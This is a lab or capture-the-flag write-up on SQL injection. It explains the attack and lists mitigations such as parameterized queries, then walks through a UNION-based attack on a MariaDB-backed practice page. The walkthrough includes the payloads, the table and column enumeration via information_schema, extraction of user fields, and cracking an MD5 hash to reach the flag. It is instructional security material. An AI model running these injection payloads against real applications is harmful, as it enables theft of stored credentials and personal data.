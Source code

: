 # SQL Injection

SQL Injection (SQLi) is a type of injection attack where malicious SQL code is inserted into input fields, query strings, or HTTP headers with the intention of manipulating the application's interaction with its database.

If successful, an attacker can:

- **Read sensitive data** (e.g., user credentials, personal information)
- **Modify or delete data** (Insert, Update, Delete)
- **Perform administrative operations** on the database (e.g., shutdown, drop tables)
- **Access system files** stored on the database server
- **Execute OS-level commands** (in some configurations)

SQL Injection occurs when input is not properly validated or sanitized, allowing attacker-supplied input to be executed as part of a SQL query.

## Mitigations
To protect your application from SQL Injection:
- Use parameterized queries (also known as prepared statements) with bound parameters.
- Avoid dynamic SQL construction using user input.
- Use ORM (Object-Relational Mapping) frameworks which safely abstract SQL queries (when used correctly).
- Escape and sanitize input data if query construction is unavoidable (e.g., LIKE clauses with wildcards).
- Enforce least privilege on database users — avoid using accounts with admin rights.
- Validate input data strictly (e.g., length, type, format, and range).
- Use stored procedures that do not concatenate user input into queries.
- Monitor and log all database errors and query behavior for suspicious activity.
- Disable detailed SQL errors in production to prevent leakage of database structure or logic.

## References
- [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)

## Exercise
In the input field, we run some commands.

1. Try different combinations to case error, to check if this field is vulnerable against SQL Injection,
```
'1 # -> 1 -- -> 1 = 1 
```
and etc.
A syntax error from MariaDB has been alerted. So, we know that we are dealing with MariaDB server now.

2. Identify the amount of columns in the statement
```
1 ORDER BY 1 # 
1 ORDER BY 2 #
1 ORDER BY 3 #
```
Number 3 caused an error, it means there are 2 columns being selected.

3. Identify existing tables in the DB with union select
```
1 UNION SELECT table_name, NULL FROM information_schema.tables #
```

Results: 
```
ID: 1 UNION SELECT table_name, NULL FROM information_schema.tables  
First name: db_default
Surname : 

ID: 1 UNION SELECT table_name, NULL FROM information_schema.tables # 
First name: users
Surname : 

ID: 1 UNION SELECT table_name, NULL FROM information_schema.tables # 
First name: guestbook
Surname : 

ID: 1 UNION SELECT table_name, NULL FROM information_schema.tables # 
First name: list_images
Surname : 

ID: 1 UNION SELECT table_name, NULL FROM information_schema.tables # 
First name: vote_dbs
Surname : 
```

4. Target table users to inject vulnerable data
```
1 UNION SELECT password, NULL FROM users # 
```
This did not work.

5. We tried different way, get exisiting columns first.
```
1 UNION SELECT column_name, NULL FROM information_schema.columns
```

Result:
```
ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: username
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: password
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: user_id
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: first_name
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: last_name
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: town
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: country
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: planet
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: Commentaire
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: countersign
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: id_comment
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: url
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: title
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: id_vote
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: vote
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: nb_vote
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: subject
Surname : 
```

6. Select with column names from the list:
```
ID: 1 UNION SELECT user_id, first_name FROM users # 
First name: one
Surname : me

ID: 1 UNION SELECT user_id, first_name FROM users # 
First name: 1
Surname : one

ID: 1 UNION SELECT user_id, first_name FROM users # 
First name: 2
Surname : two

ID: 1 UNION SELECT user_id, first_name FROM users # 
First name: 3
Surname : three

ID: 1 UNION SELECT user_id, first_name FROM users # 
First name: 5
Surname : Flag
```

A surname "Flag" is seen, we tried to inspect the id = 5,
```
ID: 1 UNION SELECT last_name, town FROM users WHERE user_id = 5# 
First name: GetThe
Surname : 42
```
etc...
```
On: 1 UNION SELECT Commentaire,  countersign FROM users WHERE user_id = 5#

ID: 1 UNION SELECT Commentaire,  countersign FROM users WHERE user_id = 5# 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

7. Some hashed value has been identified, with the hint instruction "Decrypt this password -> then lower all the char. Sh256 on it and it's good"
we decode from md5, lowercase it and then encode with sha256.
5ff9d0165b4f92b14994e5c685cdce28 (md5) -> FortyTwo -> fortytwo (sha256)
```
sha256 -s fortytwo
```
